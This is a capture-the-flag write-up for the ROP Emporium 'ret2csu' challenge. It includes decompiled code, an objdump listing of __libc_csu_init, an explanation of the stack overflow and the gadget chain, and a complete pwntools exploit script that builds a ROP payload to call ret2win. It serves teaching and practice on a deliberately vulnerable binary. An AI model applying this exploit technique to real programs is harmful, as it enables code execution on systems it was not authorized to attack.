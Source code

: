 # ret2csu

## Reversing with Ghidva

### main
```c
int main() {
  pwnme();
  return 0;
}
```

### pwnme
```c
void pwnme() {
  char input[32];
  
  puts("ret2csu by ROP Emporium");
  puts("x86_64\n");
  memset(input, 0, 0x20);
  puts(
      "Check out https://ropemporium.com/challenge/ret2csu.html for information on how to solve this challenge.\n"
      );
  printf("> ");
  read(0, input, 0x200);
  puts("Thank you!");
  return;
}
```

### usefulFunction
```c
void usefulFunction() {
  ret2win(1, 2, 3);
}
```

## Reversing with ObjDump
```assembly
0000000000400640 <__libc_csu_init>:
  400640:       41 57                   push   r15
  400642:       41 56                   push   r14
  400644:       49 89 d7                mov    r15,rdx
  400647:       41 55                   push   r13
  400649:       41 54                   push   r12
  40064b:       4c 8d 25 9e 07 20 00    lea    r12,[rip+0x20079e]        # 600df0 <__frame_dummy_init_array_entry>
  400652:       55                      push   rbp
  400653:       48 8d 2d 9e 07 20 00    lea    rbp,[rip+0x20079e]        # 600df8 <__do_global_dtors_aux_fini_array_entry>
  40065a:       53                      push   rbx
  40065b:       41 89 fd                mov    r13d,edi
  40065e:       49 89 f6                mov    r14,rsi
  400661:       4c 29 e5                sub    rbp,r12
  400664:       48 83 ec 08             sub    rsp,0x8
  400668:       48 c1 fd 03             sar    rbp,0x3
  40066c:       e8 5f fe ff ff          call   4004d0 <_init>
  400671:       48 85 ed                test   rbp,rbp
  400674:       74 20                   je     400696 <__libc_csu_init+0x56>
  400676:       31 db                   xor    ebx,ebx
  400678:       0f 1f 84 00 00 00 00    nop    DWORD PTR [rax+rax*1+0x0]
  40067f:       00 
  400680:       4c 89 fa                mov    rdx,r15                          ; Interesting gadget
  400683:       4c 89 f6                mov    rsi,r14
  400686:       44 89 ef                mov    edi,r13d
  400689:       41 ff 14 dc             call   QWORD PTR [r12+rbx*8]
  40068d:       48 83 c3 01             add    rbx,0x1
  400691:       48 39 dd                cmp    rbp,rbx
  400694:       75 ea                   jne    400680 <__libc_csu_init+0x40>
  400696:       48 83 c4 08             add    rsp,0x8
  40069a:       5b                      pop    rbx                              ; Interesting gadget
  40069b:       5d                      pop    rbp
  40069c:       41 5c                   pop    r12
  40069e:       41 5d                   pop    r13
  4006a0:       41 5e                   pop    r14
  4006a2:       41 5f                   pop    r15
  4006a4:       c3                      ret    
  4006a5:       90                      nop
  4006a6:       66 2e 0f 1f 84 00 00    nop    WORD PTR cs:[rax+rax*1+0x0]
  4006ad:       00 00 00 
```

## The vuln
Our usual `Buffer Overflow` allows smashing the stack to create a very cool `ROPchain`.

Since we haven't got any apparent gadget to set `rdx`, we'll have to search for them in the `statically-linked` part of the program, [`__libc_csu_init`](#reversing-with-objdump) to be accurate.

## The exploit
The `0x40069a` gadget allows us to pop a lot of registers but not `rdx`, which is fundamental to call any function in `x86_64`.

In this case, the gadget `0x400680` comes in our help, assigning values controlled by us to `rsi`, `rdx` and the lower 4 bytes of `rdi` (`edi`) and that's the problem: to solve this challenge we'll need to assign all `rdi`, not just `edi`, so we must call a "junk" function which does not modify the registers we want to assign.

`__init_array_end` will then come in handy, since it does nothing important (at this point of the program) and returns almost instantly. `callq` however, sets it's own return address, so the execution will resume at the instruction after, which happens to be `0x40068d`. Other problem: there are many instructions on our way to `ret`, so we'll have to compensate.

For example, we set `rbp` to one, because we don't want the `jne` in `0x400694` to be taken, and setting `rbp` to `1` and `rbx` to `0` makes the `cmp` set the `zero flag` to `1`, because they're equals after instruction `0x40068d` which adds `1` to `rbx`, so the `jne` won't be executed.

All the `pop`s we've used earlier are now on our way to WIN. No big deal, we can just fill the stack with junk and let the `pop`s do their work.

At this point we have this scenario:
- `rdi` = `0xdeadbeef`
- `rsi` = `0xcafebabecafebabe`
- `rdx` = `0xd00df00dd00df00d`

What we have to do now is to call a gadget to fill `rdi`, no problem we've got it.

Eventually we can put `ret2win`'s `plt` address on the stack and call it with every parameter set properly.

## Thanks to ROP Emporium
Thank y'all from [ROP Emporium](https://ropemporium.com/) for these very interesting challenges which we've had a lot of fun on. 

## The script
```py
from pwn import *
import os

#
# Context
#

e = context.binary = ELF('ret2csu')

#
# Offset
#

io = process(e.path)
io.sendlineafter(b'>', cyclic(0x200))
io.wait()
core = io.corefile
io.close()
offset = cyclic_find(core.read(core.rsp, 4))

info(f'Offset: {offset}')

#
# ROP
#

RET2WIN         = p64(e.plt['ret2win'])
GMON_START      = p64(e.got['__gmon_start__'])

POP_RDI         = p64(next(e.search(asm('pop rdi; ret;'))))
POP_RSI_R15     = p64(next(e.search(asm('pop rsi; pop r15; ret;'))))

# Missing the right gadget to directly pop rdx (ret2csu)
CSU_CALLQ       = p64(next(e.search(asm('mov rdx, r15; mov rsi, r14; mov edi, r13d; call QWORD PTR [r12+rbx*8]'))))
CSU_POP         = p64(next(e.search(asm('pop rbx; pop rbp; pop r12; pop r13; pop r14; pop r15; ret;'))))

#
# Exploit
#

io = process(e.path)

payload  = b''
payload += b'A' * offset

payload += CSU_POP
payload += p64(0)                   # RBX -> CALL (0 bcuz we don't want offset)
payload += p64(1)                   # RBP -> Gonna be compared with RBX + 1
payload += p64(0x0000000000600df8)  # R12 -> CALL -> Junk function (__init_array_end)
payload += p64(0xdeadbeefdeadbeef)  # R13 -> EDI
payload += p64(0xcafebabecafebabe)  # R14 -> RSI
payload += p64(0xd00df00dd00df00d)  # R15 -> RDX
payload += CSU_CALLQ
payload += b'JUNKJUNK' * 7

payload += POP_RDI
payload += p64(0xdeadbeefdeadbeef)
payload += RET2WIN

io.sendafter(b'> ', payload)

info(f'Flag: {io.recvrepeat(1).decode().splitlines()[1]}')

os.system('rm core*')
```